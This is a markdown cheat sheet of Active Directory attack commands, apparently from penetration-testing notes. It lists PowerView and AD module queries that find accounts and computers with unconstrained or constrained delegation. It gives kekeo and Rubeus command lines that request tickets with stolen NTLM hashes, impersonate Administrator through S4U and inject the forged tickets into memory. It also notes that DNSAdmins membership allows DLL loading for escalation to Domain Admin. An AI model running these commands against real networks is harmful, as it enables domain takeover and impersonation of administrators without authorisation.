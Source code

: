 ## PowerView
|Command|Description|
|---|---|
|Get-NetComputer -UnConstrained| Discover Domain Computers with unconstrained delegation enabled|

# Constrained Delegation
- Allows the first hop server to request access to only specified services on specified computers
- Delegation occurs for not only the specified service but for any service running under the same account. No validation for the SPN specified.
    - If you have constrained delegation to a service on a specified machine, you can get a TGS from any service that also runs on that machine.
    - If you have compromised a system hash you can use that system hash to impersonate the local administrator account

## Active Directory Module
|Command|Description|
|---|---|
|Get-ADObject -Filter {msDs-AllowedToDelegateTo -ne "\$null"} -Properties msDS-AllowedToDelegateTo|Get Users and Computers with constrained delegation enabled|

## PowerView
|Command|Description|
|---|---|
|Get-DomainUser -TrustedToAuth|Get Users with constrained delegation enabled|
|Get-DomainComputer -TrustedToAuth|Get Computers with constrained delegation enabled|

# Writing Tickets

|Tool|Command|Description|
|---|---|---|
|kekeo|tgt::ask /user:\$Username /domain:\$DomainName /rc4:\$NTLMHashof\$Username|Request a TGT|
|kekeo|tgt::s4u /tgt:\$pathtotgtfile.kirbi /user:\$Username /service:\$Service | Request a TGS for \$Service|
|kekeo|tgt::s4u /tgt:\$PathTotgtfile.kirbi /service:\$SPN1\|\$SPN2|Request a TGS for \$Service1 and \$Service2|
|rubeus|rubeus.exe s4u /user:\$username /rc4:\$NTLMof\$username /impersonateuser:Administrator /msdsspn:"\$SPN" /ptt|Write and inject a ticket into memory for \$SPN as Administrator|
|rubeus|rubeus.exe s4u /user:\$username /rc4:\$NTLMof\$username /impersonateuser:Administrator /msdsspn:"\$SPN" /altservice:$altservice /ptt|Write and inject a ticket into memory for \$SPN and \$altservice as Administrator|

# Sensitive Groups

## DNSAdmins
- Members of the DNSAdmins group are allowed to load arbitrary DLLs with the privileges of dns.exe (SYSTEM)
- If the DNS server is also the domain controller, this provides escalation to Domain Admin
- Need privileges to restart the DNS Service
- RSAT DNS needs to be installed on foothold/attackers machine to usse dnscmd commandlet
